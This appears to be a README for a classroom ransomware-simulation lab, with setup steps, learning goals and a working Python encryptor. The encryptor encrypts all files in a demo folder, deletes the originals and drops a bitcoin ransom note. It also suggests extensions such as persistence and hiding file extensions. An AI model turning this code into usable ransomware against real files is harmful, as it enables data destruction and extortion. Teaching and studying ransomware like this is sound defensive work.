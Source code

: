 # Webdeves Ethical Hacking Project (Group A)
# Ransomware Simulator Project (Ethical Hacking Lab)

## Objective
Simulate a ransomware attack in a controlled environment to understand how file encryption and ransom messages work. This project is strictly for **educational purposes** and should only be executed inside **virtual machines** on **test files**.


## Project Structure
```
ransomware_simulator/
│
├── encryptor.py            # Script to encrypt files and drop ransom note
├── decryptor.py            # Script to decrypt files with a key
├── key.key                 # Generated encryption key
├── ransom_note.txt         # Template ransom message (used in script)
├── demo_files/             # Test files that will be encrypted
└── README.md               # Instructions and documentation
```

- Only run this in **virtual machines**.
- Use only the `demo_files/` folder with dummy/test files.
- Never target system folders or real documents.
- Understand the legal and ethical implications before testing.


## Getting Started

### Step 1: Setup Environment
- Python 3.7+
- Install dependencies:
```bash
pip install cryptography
```
- Create test files in `demo_files/` folder (e.g. `.txt`, `.docx`, `.jpg`)

### Step 2: Run Encryptor
```bash
python encryptor.py
```
This will:
- Encrypt all files in `demo_files/`
- Replace originals with `.enc` files
- Create a ransom note called `README.txt`

### Step 3: Decryption
You’ll use the `decryptor.py` script and the `key.key` file to recover the original files. This will simulate what happens when a victim "pays the ransom".

---

## decryptor.py (To be added)
You will load:
- Load the `key.key`
- Decrypt each `.enc` file in the folder
- Recreate the original files

## Learning Outcomes
- Understand how ransomware operates
- Learn file encryption/decryption using `cryptography`
- Explore defense mechanisms and detection strategies
- Discuss ethical and legal implications of malware simulation

---

## Extension Ideas
- Add a GUI popup with countdown timer
- Simulate file extension hiding
- Add basic persistence (autostart simulation)
- Build a basic ransomware detector script (blue team exercise)

---

## 📬 Submission Checklist
- [ ] `encryptor.py` script completed
- [ ] `decryptor.py` script created
- [ ] Test run and screenshot of encrypted files
- [ ] Report (1 page): What you learned + detection methods

---

## Ethics Reminder
This project is for educational cybersecurity use only. Misusing this knowledge is illegal and unethical. Respect privacy, security, and laws at all times.

## encryptor.py

from cryptography.fernet import Fernet
import os, glob

# Create and store encryption key
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

fernet = Fernet(key)

# Folder containing files to simulate encryption
folder = "demo_files/"
os.makedirs(folder, exist_ok=True)

# Encrypt all files in folder
for filepath in glob.glob(folder + "*"):
    if filepath.endswith(".enc") or filepath.endswith("README.txt"):
        continue
    with open(filepath, "rb") as f:
        data = f.read()
    encrypted = fernet.encrypt(data)
    with open(filepath + ".enc", "wb") as f:
        f.write(encrypted)
    os.remove(filepath)

# Drop ransom note
```bash
ransom_note = """
--- YOUR FILES HAVE BEEN ENCRYPTED ---
To recover your data, send 1 BTC to the following address:
1A2b3C4d5E6f7G8h9I0j
Then contact us with proof of payment.
You have 48 hours before your files are lost forever.
"""
```

with open(folder + "README.txt", "w") as f:
    f.write(ransom_note)

print("[+] Files encrypted. Ransom note dropped.")
